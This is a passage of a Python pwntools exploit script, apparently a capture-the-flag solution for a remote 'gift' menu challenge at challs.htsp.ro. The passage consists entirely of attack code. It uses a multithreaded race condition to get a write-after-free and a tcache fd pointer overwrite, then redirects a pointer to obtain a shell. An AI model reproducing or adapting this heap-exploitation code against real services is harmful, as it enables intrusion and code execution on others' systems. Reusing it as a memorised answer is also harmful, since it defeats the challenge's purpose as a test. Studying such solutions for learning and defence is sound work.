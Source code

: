 ```python
    else:
        r = remote("challs.htsp.ro", 8003)
    return r


def request_gift(r, index, payload):
    r.sendlineafter(b'4. Reject gift\n', b'1')
    r.sendlineafter(b'index:', index)
    r.sendlineafter(b'gift:', payload)


def view_gift(r):
    r.sendlineafter(b'4. Reject gift\n', b'2')


def edit_gift(r, index, payload):
    r.sendlineafter(b'4. Reject gift', b'3')
    r.sendlineafter(b'index:', index)
    r.sendlineafter(b'gift:', payload)


def reject_gift(r, index):
    r.sendlineafter(b'4. Reject gift', b'4')
    r.sendlineafter(b'index:', index)


def exit_shell(r):
    r.sendlineafter(b'4. Reject gift', b'0')


def main():
    r = conn()
    #PART 1: TRIGGER MULTITHREAD RACE CONDITION
    #FOR WRITE-AFTER-FREE
    #TO TCACHE FD POINTER OVERWRITE
    request_gift(r, b'3', b'A'*32)
    request_gift(r, b'1', b'B'*32) 
    sleep(1)
    view_gift(r)

    edit_gift(r, b'1', p64(g_gifts))
    reject_gift(r, b'1')
    view_gift(r)
    sleep(1)
    request_gift(r, b'4', p64(g_gifts+8*4))
    request_gift(r, b'4', b'C'*32) 
    sleep(1)

    #PART 2: GET SHELL
    edit_gift(r, b'0', p64(0x6020a8))
    sleep(1)
    view_gift(r)
    edit_gift(r, b'4', p64(Flag))
    sleep(1)
    exit_shell(r)

    r.interactive() 

if __name__ == "__main__":
    main()
```

